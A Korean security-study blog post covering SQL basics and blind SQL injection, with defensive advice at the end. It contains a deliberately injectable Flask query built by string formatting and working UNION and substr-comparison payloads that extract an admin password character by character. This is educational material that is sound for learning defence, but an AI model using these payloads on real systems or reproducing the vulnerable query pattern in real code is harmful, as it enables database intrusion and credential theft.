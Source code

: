 ```yaml
---
title: "[Infosec] SQL & Blind SQL Injection(sqli) 정리"
date: 2025-09-10 20:20:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, SQL, DBMS, SQLi, BlindSQLi]          # 해시태그처럼 글 묶기
description: "SQL의 허점을 이용해라"
toc: true
---
```

# 가장 치명적이고 오래된 웹 공격 수단

---
> 이 글은 **보안 학습/방어 목적**입니다. 실습은 반드시 **자신의 로컬/테스트 환경**에서만 하세요.

## DBMS란?

DBMS(Database Management System)는 데이터베이스를 관리하며 **CRUD(Create, Read, Update, Delete)** 기능을 제공하고, 다수의 사용자가 동시에 접근할 수 있도록 해준다.

| 종류 | 대표 DBMS |
| --- | --- |
| 관계형(Relational) | MySQL, MariaDB, PostgreSQL, SQLite |
| 비관계형(Non-Relational) | MongoDB, CouchDB, Redis |

- **관계형**: 행과 열(테이블, 스프레드시트와 유사) 구조  
- **비관계형**: 주로 Key-Value, 문서, 그래프 등의 구조

---

## SQL 명령어 구분

- **DDL (Data Definition Language)**: 데이터 정의어 (CREATE, DROP, ALTER …)  
- **DML (Data Manipulation Language)**: 데이터 조작어 (SELECT, INSERT, UPDATE, DELETE)  
- **DCL (Data Control Language)**: 데이터 제어어 (GRANT, REVOKE …)

### DML 기본 문법

- SELECT: 조회  
  ```sql
  SELECT 컬럼 FROM 테이블 WHERE 조건 ORDER BY 기준 LIMIT 갯수 OFFSET 시작위치;
  ```

- INSERT: 추가  
  ```sql
  INSERT INTO board (title, content) VALUES ('title 1', 'content 1');
  ```

- UPDATE: 수정  
  ```sql
  UPDATE users SET password='newpw' WHERE username='admin';
  ```

- DELETE: 삭제  
  ```sql
  DELETE FROM users WHERE username='guest';
  ```

---

## SQL 고급 기능

### UNION (합집합)
```sql
SELECT * FROM users
UNION
SELECT "DemoUser", "DemoPW";
```
조건:
1. 컬럼 개수가 동일해야 함  
2. 컬럼 타입이 동일해야 함  

### Subquery (서브쿼리)
쿼리 안에서 또 다른 쿼리를 사용하는 것.

```sql
SELECT 1,2,(SELECT 456);
```

### COLUMNS 절 서브쿼리
컬럼 절에서는 반드시 **단일 행, 단일 열**만 반환 가능.  
행이 여러 개거나 열이 여러 개면 오류 발생.

### FROM 절 서브쿼리 (Inline View)
다중 행/다중 열 모두 가능.

```sql
SELECT * FROM (SELECT username, 1234 FROM users) as u;
```

### WHERE 절 서브쿼리
다중 행 반환 가능.

```sql
SELECT * FROM users WHERE username IN (SELECT "admin" UNION SELECT "guest");
```

---

# Blind SQL Injection

**Blind SQLi**는 서버의 응답이 직접적으로 쿼리 결과를 보여주지 않고, **참/거짓 여부**만 알려줄 때 발생한다.  
공격자는 참/거짓 응답을 이용해 데이터베이스 내부 정보를 **추측하며 알아낸다.**

## 예시 코드 (Flask 서버)

```python
from flask import Flask, request
import pymysql

app = Flask(__name__)

def getConnection():
    return pymysql.connect(
        host='localhost',
        user='demo',
        password='demo',
        db='demo',
        charset='utf8'
    )

@app.route('/', methods=['GET'])
def index():
    username = request.args.get('username')
    sql = "select username from users where username='%s'" % username

    conn = getConnection()
    curs = conn.cursor(pymysql.cursors.DictCursor)
    curs.execute(sql)
    rows = curs.fetchall()
    conn.close()

    if rows and rows[0]['username'] == "admin":
        return "True"
    else:
        return "False"

app.run(host='0.0.0.0', port=8000)
```

### DB 가정 데이터

| username | password |
| --- | --- |
| admin | pw |
| guest | pw |

---

## Blind SQLi 공격 기법

### 1) UNION을 이용한 공격
```
// 요청
/?username=' union select 'admin' -- -
// 응답
True
```

### 2) 비교 구문을 이용한 공격
```
// 요청
/?username=' union select if(substr(password,1,1)='B','admin','not admin') from users where username='admin' -- -
// 응답
False

/?username=' union select if(substr(password,1,1)='P','admin','not admin') from users where username='admin' -- -
// 응답
True

/?username=' union select if(substr(password,2,1)='a','admin','not admin') from users where username='admin' -- -
// 응답
True
```

> 이런 식으로 한 글자씩 맞춰가며 비밀번호 값을 알아낼 수 있다.

---

## 방어 방법

1. **Prepared Statement (준비된 쿼리)**  
   - 파라미터 바인딩으로 문자열 결합을 차단  
2. **ORM 사용**  
   - Django ORM, SQLAlchemy 등 안전한 API 사용  
3. **최소 권한 원칙**  
   - DB 계정에 불필요한 권한 부여 금지  
4. **에러 숨김 처리**  
   - 상세 SQL 에러 대신 일반 메시지 반환  
5. **WAF(Web Application Firewall)**  
   - SQLi 탐지 및 차단 보조

---

## 요약

- **SQL**: 데이터 조작/정의/제어 언어  
- **UNION/Subquery**: SQL 기능 확장, 하지만 공격자에겐 공격 표면 확대  
- **Blind SQLi**: 결과 대신 참/거짓만으로 정보를 유출하는 공격  
- **방어 핵심**: **Prepared Statement + 최소 권한 + 에러 은폐**

